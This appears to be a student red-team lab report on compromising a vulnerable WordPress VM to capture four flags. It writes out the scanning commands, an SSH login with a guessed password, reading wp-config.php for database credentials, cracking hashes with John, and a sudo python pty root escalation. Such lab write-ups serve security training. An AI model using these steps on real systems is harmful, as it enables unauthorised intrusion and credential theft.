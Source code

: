 # Red Team: Summary of Operations
Nicole Kemp

19/05/22

# Table of Contents
- ### Exposed Services
- ### Critical Vulnerabilities
- ### Exploit - Using Wordpress
- ### Exploit - Finding `Flags.txt`

# Exposed Services:

Nmap scan results for each machine reveal the below services and OS details:

` netdiscover -r 192.168.1.255/16`
  # ![screenshot](netdiscover%20192.168.1.255%2016.jpg)

### This scan identifies the services below as potential points of entry:

    - Name of VM: Target 1
    - Operating System: Linux
    - Purpose: Defensive Blue Team
    - IP Address: 192.168.1.110

![screenshot:](nmap%20-sV%20192.168.1.110.jpg)

### Target 1's ports and services:
    - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4
    - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))
    - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)
    - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X
    - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X

### Target 1's vulnerabilities:
    - Open SSH (CVE-2021-28041)
    - Apache https 2.4.10 (CVE-2017-15710)
    - Exploit on open rpcbind port could lead to remote DoS (CVE-2017-8779)
    - Samba NetBIOS (CVE-2017-7494)


# Critical Vulnerabilities

### Network Mapping and User Enumeration (WordPress site). 

- Nmap was used to discover open ports.
- Able to discover open ports and tailor their attacks accordingly.

### Weak User Password
- A user had a weak password and the attackers were able to discover it by guessing.
- Able to correctly guess a user's password and SSH into the web server.

### Unsalted User Password Hash (WordPress database)
- Wpscan was utilized by attackers in order to gain username information.
- The username info was used by the attackers to help gain access to the web server.

### MySQL Database Access
- The attackers were able to discover a file containing login information for the MySQL database.
- Able to use the login information to gain access to the MySQL database.

### MySQL Data Exfiltration
- By browsing through the various tables in the MySQL database the attackers were able to discover password hashes of all the users.
- The attackers were able to exfiltrate the password hashes and crack them with John the Ripper.

### Misconfiguration of User Privileges/Privilege Escalation
- The attackers noticed that Steven had sudo privileges for python.
- Able to utilize Steven’s python privileges in order to escalate to root 

## Exploit - Using Wordpress

## Exploit - Finding `Flags.txt`

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - flag1.txt: `flag1{b9bbcb33e11b80be759c4e844862482d}`
    - **Exploit Used**
      - SSH into Michael’s account and look in `the/var/www files`
      - The command run: `ssh michael@192.168.1.110`
      - The username and password michael were identical,allowing for the ssh connection.
![Screenshot](Flag%201%5Cfound%20Flag%201.jpg)
![Screenshot](Flag%201%5CFlag%201.jpg)


  - `flag2.txt`: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`
    - **Exploit Used**
      - Command: ssh into Michael’s account and look in the `/var/www files`
      - Command: `cd /var/www`
      - Command: `ls -lah`
      - Command: `cat flag2.txt`

      Visited the IP address of the target `192.168.1.110` over HTTP port 80.
      leads to this website: ![](Main%20exploit%5C(8)Target-IP-address-192.168.1.110-HTTP-port-80-Raven%20Security.jpg)![](Flag%202%5CFlag%202.jpg)![](Flag%202%5Cfound%20Flag%202.jpg)


- `flag3.txt`: `flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - Continued using michael shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.
      - Command: `cd /var/www/html/wordpress/`
      - Command: `cat /var/www/html/wordpress/wp-config.php`
      - ![](Flag%203%5CFlag%203,%20(and%204).jpg)

- `flag4.txt`: `flag4{715dea6c055b9fe3337544932f2941ce}`
    - **Exploit Used**
      - Used john to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.
      - Cracking the password hash with `john`.
      - Copied password hash from MySQL into `~/root/wp_hashes.txt` and cracked with john to discover Steven’s password is `pink84`.
      - Command: `john wp_hashes.txt`
      - Secure a user shell as the user whose password you cracked.
      - Command: ssh steven@192.168.1.110
      - *Password: pink84
      - Escalating to root: sudo -l
      - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
      - Searched for the root directory for Flag 4.
      - Command: cd /root/
      - Command: ls
      - Command: cat flag4.txt
      - Screenshot of Flag 4:![](Flag%204%5CFlag%204.jpg)
